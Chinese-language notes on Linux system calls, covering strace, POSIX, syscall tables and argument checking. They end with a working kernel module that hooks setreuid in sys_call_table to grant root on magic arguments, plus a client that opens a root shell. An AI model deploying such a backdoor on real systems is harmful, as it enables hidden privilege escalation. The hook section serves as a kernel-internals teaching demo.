



# 系统调用

- 内核为应用程序提供的一组接口
  - 使用户进程访问系统资源
- 目的
  - 为用户空间提供硬件的抽象接口
  - 防止非法访问，保证系统的稳定和安全（屏蔽用户的权限）
  - 实现多任务和虚拟内存的需要
- 用户进入内核
  - 系统调用
  - 异常（Exception）
  - 陷阱（Trap）

## API、POSIX 和 C 库

调用 `printf()` 函数时，应用程序、C 库和内核之间的关系：



### `strace`

`strace` 是 Linux 环境下的一款程序调试工具，用来监察一个应用程序所使用的系统调用及它所接收的系统信息。测试程序：

```cpp
#include <stdio.h>
#include <unistd.h>

int main() {
	printf("Hello %d!\n", getpid());
	return 0;
}
```

使用 `strace` 跟踪程序运行：

```bash
$ strace ./call
execve("./call", ["./call"], [/* 68 vars */]) = 0
brk(NULL)                               = 0x1005000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=104605, ...}) = 0
mmap(NULL, 104605, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7f1f749e8000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0P\t\2\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1868984, ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f1f749e7000
mmap(NULL, 3971488, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7f1f74413000
mprotect(0x7f1f745d3000, 2097152, PROT_NONE) = 0
mmap(0x7f1f747d3000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1c0000) = 0x7f1f747d3000
mmap(0x7f1f747d9000, 14752, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7f1f747d9000
close(3)                                = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f1f749e6000
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f1f749e5000
arch_prctl(ARCH_SET_FS, 0x7f1f749e6700) = 0
mprotect(0x7f1f747d3000, 16384, PROT_READ) = 0
mprotect(0x600000, 4096, PROT_READ)     = 0
mprotect(0x7f1f74a02000, 4096, PROT_READ) = 0
munmap(0x7f1f749e8000, 104605)          = 0
getpid()                                = 6176
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
brk(NULL)                               = 0x1005000
brk(0x1026000)                          = 0x1026000
write(1, "Hello 6176!\n", 12Hello 6176!
)           = 12
exit_group(0)                           = ?
+++ exited with 0 +++
```

### POSIX

- Portable Operating System Interface
  - 可移植操作系统接口
  - 是一个规范
  - Linux、Windows NT、DEC OpenVMS
- IEEE 制定
  - POSIX 文档分为三个部分
    - POSIX Kernel API
    - POSIX 命令和工具集
    - POSIX 一致性测试

> 可移植操作系统接口（Portable Operating System Interface，缩写 POSIX，其中 X 表明其对 Unix API 的传承）是 IEEE 为要在各种 UNIX 操作系统上运行软件，而定义 API 的一系列互相关联的标准的总称，其正式称呼为 IEEE Std 1003，而国际标准名称为 ISO/IEC 9945。此标准源于一个大约开始于 1985 年的项目。

### C 库

- C Runtime Lib
  - 实现了 Unix 的主要 API
  - 标准 C 库函数
  - 封装了系统调用接口
    - 程序员看到的是 C 库函数

## 系统调用（syscall）简介

- 通过 C 库定义的函数调用来进行
- 具有 0 个或多个参数
- 可能会有一些副作用
  - 如打开文件，会分配一些资源
  - 读取文件，文件指针会改变
- `long` 返回值，表示成功或错误
  - `errno`，错误号
  - `perror()`，打印错误字符串

例如 `getpid()`：

```cpp
/**
 * sys_getpid - return the thread group id of the current process
 *
 * Note, despite the name, this returns the tgid not the pid.  The tgid and
 * the pid are identical unless CLONE_THREAD was specified on clone() in
 * which case the tgid is the same in all threads of the same group.
 *
 * This is SMP safe as current->tgid does not change.
 */
SYSCALL_DEFINE0(getpid)
{
	return task_tgid_vnr(current); // return current->tgid
}

#define SYSCALL_DEFINE0(sname)					\
	SYSCALL_METADATA(_##sname, 0);				\
	asmlinkage long sys_##sname(void)

asmlinkage long sys_getpid(void)
{
    return task_tgid_vnr(current); // return current->tgid
}
```

### 系统调用号

- 系统调用
  - 有唯一系统调用号
  - 内核中与系统调用名称无关
- 如何分配
  - 分配后不能改变（为什么？）
  - 删除后也不能再回收利用（为什么？）
- `sys_ni_syscal()`
  - 返回 `-ENOSYS`，不做任何其他事情。
- `sys_call_table()`
  - 已注册的系统调用列表

```cpp
extern long sys_ni_syscall(unsigned long, unsigned long, unsigned long, unsigned long, unsigned long, unsigned long);

asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1] = {
	/*
	 * Smells like a compiler bug -- it doesn't work
	 * when the & below is removed.
	 */
	[0 ... __NR_syscall_max] = &sys_ni_syscall,
#include <asm/syscalls_64.h>
};
```

### 系统调用处理

- 用户空间程序不能直接调用内核函数
- 软中断
  - 通过中断方式，使系统从用户态切换到内核执行中断处理程序
  - 中断 0x80
  - 其处理程序为 `system_call()`

### 指定系统调用号

- 调用号放在 eax 中
- `system_call()`
  - 检查调用号是否合法
    - `>= NR_syscalls`，即不合法，则返回 `-ENOSYS`
    - 若合法，根据 `sys_call_table` 查找指定偏移的系统调用

### 参数传递

- x86 中，ebx、ecx、edx、esi、edi 存放前五个参数
  - 超过 5 个，传递一个结构指针
  - 返回值放在 eax

## 系统调用的实现

- 新系统调用
  - 新的功能用处
    - 避免多用途的调用（如 `ioctl`）
  - 调用参数、返回值、错误码
  - 兼容性考虑
  - 扩展性
- 参数验证
  - 必须保证参数合法、有效
    - 因为是在内核中
  - 指针检查
    - 指针指向的内存必须属于用户空间
    - 只能访问进程自己的内存
    - 严格遵守读写属性
  - 内核和用户空间传递数据
    - `copy_from_user()`
    - `copy_to_user()`

```cpp
static inline unsigned long __must_check
copy_from_user(void *to, const void __user *from, unsigned long n)
{
	int sz = __compiletime_object_size(to);

	might_fault();

	/*
	 * While we would like to have the compiler do the checking for us
	 * even in the non-constant size case, any false positives there are
	 * a problem (especially when DEBUG_STRICT_USER_COPY_CHECKS, but even
	 * without - the [hopefully] dangerous looking nature of the warning
	 * would make people go look at the respecitive call sites over and
	 * over again just to find that there's no problem).
	 *
	 * And there are cases where it's just not realistic for the compiler
	 * to prove the count to be in range. For example when multiple call
	 * sites of a helper function - perhaps in different source files -
	 * all doing proper range checking, yet the helper function not doing
	 * so again.
	 *
	 * Therefore limit the compile time checking to the constant size
	 * case, and do only runtime checking for non-constant sizes.
	 */

	if (likely(sz < 0 || sz >= n))
		n = _copy_from_user(to, from, n);
	else if(__builtin_constant_p(n))
		copy_from_user_overflow();
	else
		__copy_from_user_overflow(sz, n);

	return n;
}

static inline unsigned long __must_check
copy_to_user(void __user *to, const void *from, unsigned long n)
{
	int sz = __compiletime_object_size(from);

	might_fault();

	/* See the comment in copy_from_user() above. */
	if (likely(sz < 0 || sz >= n))
		n = _copy_to_user(to, from, n);
	else if(__builtin_constant_p(n))
		copy_to_user_overflow();
	else
		__copy_to_user_overflow(sz, n);

	return n;
}
```

### 系统调用实例

系统调用必须仔细检查它们所有的参数是否合法有效。系统调用在内核空间执行，如果任由用户将不合法的输入传递给内核，那么系统的安全和稳定将面临极大的考验。

> 举例来说，与文件 I/O 相关的系统调用必须检查文件描述符是否有效。与进程相关的函数必须检查提供的 PID 是否有效。必须检查每个参数，保证它们不但合法有效，而且正确。进程不应当让内核去访问那些它无权访问的资源。

最重要的一种检查就是检查用户提供的指针是否有效。如果一个进程可以给内核传递指针而又无需检查，那么它就可以给出一个它根本没有访问权限的指针，哄骗内核去为它拷贝本不允许它访问的数据，如原本属于其他进程或者不可读的映射数据。在接受一个用户空间的指针之前，内核必须保证：

- 指针指向的内存区域属于用户空间。进程绝不能哄骗内核去读取内核空间的数据；
- 指针指向的内存区域在进程的地址空间里。进程绝不能哄骗内核去读其他进程的数据；
- 如果是读，该内存应被标记为可读；如果是写，该内存应被标记为可写；如果是可执行，该内存被标记为可执行。进程绝不能绕过内存访问限制。

```cpp
    /*
     * silly_copy没有实际价值的系统调用，它把len字节的数据从‘src’拷贝到‘dst’，毫无理由地让内核空
     * 间作为中转站，但这的确是个好例子
     */
SYSCALL_DEFINE3(silly_copy,
                unsigned long *, src,
                unsigned long *, dst,
                unsigned long len)
{
    unsigned long buf;
    /* 将用户地址空间中的src拷贝进buf */
    if (copy_from_user(&buf, src, len))
        return -EFAULT;
    /* 将buf拷贝进用户地址空间中的dst */
    if (copy_to_user(dst, &buf, len))
        return -EFAULT;
    /* 返回拷贝的数据量 */
    return len;
}
```

最后一项检查针对是否有合法权限。在老版本的 Linux 内核中，需要超级用户权限的系统调用才可以通过调用 `suser()` 函数这个标准动作来完成检查。这个函数只能检查用户是否为超级用户；现在它已经被一个更细粒度的“权能”机制代替。新的系统允许检查针对特定资源的特殊权限。调用者可以使用 `capable()` 函数来检查是否有权能对指定的资源进行操作，如果它返回非 0 值，调用者就有权进行操作，返回 0 则无权操作。以下的 `reboot()` 系统调用会确保调用进程是否具有 `CAP_SYS_REBOOT` 权能：

```cpp
SYSCALL_DEFINE4(reboot,
                int, magic1,
                int, magic2,
                unsigned int, cmd,
                void __user *, arg)
{
    char buffer[256];

    /* 我们只信任启动系统的系统管理员 */
    if (!capable(CAP_SYS_BOOT))
        return -EPERM;

    /* 为了安全起见，我们需要“magic”参数 */
    if (magic1 != LINUX_REBOOT_MAGIC1 ||
       (magic2 != LINUX_REBOOT_MAGIC2 &&
                    magic2 != LINUX_REBOOT_MAGIC2A &&
                    magic2 != LINUX_REBOOT_MAGIC2B &&
                    magic2 != LINUX_REBOOT_MAGIC2C))
        return -EINVAL;

    /* 当未设置pm_power_off时，请不要试图让power_off的代码看起来像是可以停机，而应该采用更简单的方式 */
    if ((cmd == LINUX_REBOOT_CMD_POWER_OFF) && !pm_power_off)
        cmd = LINUX_REBOOT_CMD_HALT;

    lock_kernel();
    switch (cmd) {
    case LINUX_REBOOT_CMD_RESTART:
        kernel_restart(NULL);
        break;

    case LINUX_REBOOT_CMD_CAD_ON:
        C_A_D = 1;
        break;
    case LINUX_REBOOT_CMD_CAD_OFF:
        C_A_D = 0;
        break;

    case LINUX_REBOOT_CMD_HALT:
        kernel_halt();
        unlock_kernel();
        do_exit(0);
        break;

    case LINUX_REBOOT_CMD_POWER_OFF:
        kernel_power_off();
        unlock_kernel();
        do_exit(0);
        break;

    case LINUX_REBOOT_CMD_RESTART2:
        if (strncpy_from_user(&buffer[0], arg, sizeof(buffer) - 1) < 0) {
            unlock_kernel();
            return -EFAULT;
        }
        buffer[sizeof(buffer) - 1] = '\0';

        kernel_restart(buffer);
        break;

    default:
        unlock_kernel();
        return -EINVAL;
    }
    unlock_kernel();
    return 0;
}
```

### 系统调用上下文

完成实际工作后，由 `system_call` 来完成扫尾工作，切换回用户空间。

### 绑定系统调用

- 在系统调用表的最后加入一个表项
- 在 `<asm/unistd.h>` 中定义系统调用号
- 系统调用需编译进内核映像

#### 系统调用实现（`sys_foo`）

- 在 `entry.s` 最后增加

```
.long sys_foo
```

- 在 `<asm/unistd.h>` 增加

```cpp
#define __NR_foo 338
```

- 功能实现

```cpp
asmlinkage long sys_foo(void)
{
    return THREAD_SIZE;
}
```

##### 如何调用？

调用 `sys_open`：

```cpp
long open(const char *filename,int flags,int mode) // 库封装
#define NR_open 5 // 宏定义
_syscall3(long,open,const char *,filename,int ,flags,int,mode) // 调用
```

调用 `sys_foo`：

```cpp
#define __NR_foo 283
__syscall0(long, foo) // 调用
```

## Hook 系统调用

> `setreuid()` 用来将参数 ruid 设为目前进程的真实用户识别码, 将参数 euid 设置为目前进程的有效用户识别码. 如果参数 ruid 或 euid 值为 `-1`, 则对应的识别码不会改变。

下面通过编写模块的方式对 `setreuid()` 系统调用进行 Hook：

```cpp
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/syscalls.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("assassinq");
MODULE_DESCRIPTION("hook test module");

unsigned long **sys_call_table; // sys_call_table地址存储
// pte_t *pte; // 用来存储页地址
// unsigned int level;

asmlinkage long (*real_setreuid)(uid_t ruid, uid_t euid); // 原始setreuid

asmlinkage long fake_setreuid(uid_t ruid, uid_t euid) { // 用来hook的额setreuid
    struct cred *new;
    printk("Hook setreuid.\n");
    if ((ruid == 4321) && (euid == 1234)) { // 如果传入的参数为4321和1234
        new = prepare_creds();
        if (new != NULL) { // 设置root的uid
            new->uid = GLOBAL_ROOT_UID;
            new->gid = GLOBAL_ROOT_GID;
            new->euid = GLOBAL_ROOT_UID;
            new->egid = GLOBAL_ROOT_GID;
            new->suid = GLOBAL_ROOT_UID;
            new->sgid = GLOBAL_ROOT_GID;
            new->fsuid = GLOBAL_ROOT_UID;
            new->fsgid = GLOBAL_ROOT_GID;
            commit_creds(new);
        }
        printk("Granted root access.\n");
        return (*real_setreuid)(0, 0); // 将uid设置为root
    }
    return (*real_setreuid)(-1, -1); // 默认不修改uid
}

static void allow_writing(void) { // 开启写权限
    write_cr0(read_cr0() & ~0x10000);
}

static void disallow_writing(void) { // 关闭写权限
    write_cr0(read_cr0() | 0x10000);
}

static int __init hello_init(void) {
    printk("Load hook sys_setreuid module.\n");

    sys_call_table = (unsigned long **) kallsyms_lookup_name("sys_call_table"); // 通过kallsyms_lookup_name获取sys_call_table的地址
    printk("Syscall Table Address: %p\n", (unsigned long **) sys_call_table);

    printk("Modify syscall table.\n");
    allow_writing();
    // pte = lookup_address((unsigned long) sys_call_table, &level); // 获取sys_call_table对应的页地址
    // set_pte_atomic(pte, pte_mkwrite(*pte)); // 开启写权限的另一种方式，修改pte所指向页的权限
    real_setreuid = (void *)sys_call_table[__NR_setreuid];
    printk("Old sys_mkdir: %p.\n", (unsigned long *) real_setreuid);
    sys_call_table[__NR_setreuid] = (unsigned long *) fake_setreuid;
    disallow_writing();
    // set_pte_atomic(pte, pte_clear_flags(*pte, _PAGE_RW)); // 关闭写权限的另一种方式

    printk("Module loaded.\n");
    return 0;
}

static void __exit hello_exit(void) {
    printk("Modify syscall table.\n");
    allow_writing();
    // set_pte_atomic(pte, pte_mkwrite(*pte));
    sys_call_table[__NR_setreuid] = (unsigned long *) real_setreuid;
    disallow_writing();
    // set_pte_atomic(pte, pte_clear_flags(*pte, _PAGE_RW));

    printk("Exit module.\n");
}

module_init(hello_init);
module_exit(hello_exit);
```

编写如下程序对 `setreuid` 进行调用：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	if (argc != 3) {
		printf("Usage: %s [RUID] [EUID]\n", argv[0]);
		return -1;
	}
	int buf;
	uid_t ruid, euid;
	buf = atoi(argv[1]);
	if (buf == 0) {
		printf("Argument illegal.\n");
		return -1;
	}
	ruid = (uid_t) buf;
	buf = atoi(argv[2]);
	if (buf == 0) {
		printf("Argument illegal.\n");
		return -1;
	}
	euid = (uid_t) buf;
	int ret = setreuid(ruid, euid);
	if (ret != 0) {
		printf("SYS_setreuid exited for some reason.\n");
		return -1;
	}
	system("/bin/sh");
	return 0;
}
```

运行效果：





# 参考网站

https://elixir.bootlin.com/linux/v4.4.31/source/include/linux/syscalls.h
https://elixir.bootlin.com/linux/v4.4.31/source/kernel/sys.c
https://elixir.bootlin.com/linux/v4.4.31/source/arch/x86/entry/syscall_64.c
https://elixir.bootlin.com/linux/v4.4.31/source/arch/x86/include/asm/uaccess.h
https://github.com/GreenCandlePrinter/syscall-hook
https://xz.aliyun.com/t/6961
https://memset.wordpress.com/2011/01/20/syscall-hijacking-dynamically-obtain-syscall-table-address-kernel-2-6-x/
